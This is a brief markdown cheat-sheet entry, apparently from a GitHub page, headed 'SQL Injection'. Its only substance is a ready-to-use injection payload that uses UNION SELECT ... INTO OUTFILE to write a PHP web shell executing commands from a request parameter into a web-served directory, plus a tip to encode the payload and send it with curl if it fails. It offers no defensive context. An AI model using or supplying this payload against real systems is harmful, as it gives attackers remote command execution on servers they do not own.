 # SQL Injection

- SQL Injection write to file via shell
```
test' union select '<?php echo system($_REQUEST["bingo"]); ?>' into outfile '/srv/http/cmd.php' -- -
```

- If it does not work, encode all characters and send via `curl`.
